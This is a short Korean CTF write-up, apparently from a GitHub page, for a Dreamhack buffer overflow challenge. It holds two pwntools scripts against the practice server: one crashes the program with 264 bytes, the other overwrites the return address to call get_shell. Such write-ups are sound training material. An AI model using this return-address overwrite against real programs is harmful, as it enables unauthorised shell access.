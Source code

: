 3. 첫 번째 인자인 `fd`는 `eax`를 `0`으로 만든 후 `push eax`

<img width="467" alt="image" src="https://github.com/user-attachments/assets/67e323d9-f184-472f-a13c-895b6b26d74f">

# Exploit 1. `BOF`를 통한 `Segfault` 발생 : `ex_bof.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 19837)

p.sendlineafter(b'Size: ', b'0')
p.sendafter(b'Data: ', b'a' * 264)

p.interactive()
```

# Exploit 2. `BOF`와 `RAO`를 통한 `get_shell` 실행

<img width="522" alt="image" src="https://github.com/user-attachments/assets/5af854a6-45d8-4b36-af98-415553ee6e80">

```
from pwn import *

p = remote('host3.dreamhack.games', 23619)

p.sendlineafter(b'Size: ', b'0')

payload = b'a' * 260
payload += p32(0x8048659)

p.sendafter(b'Data: ', payload)

p.interactive()
```








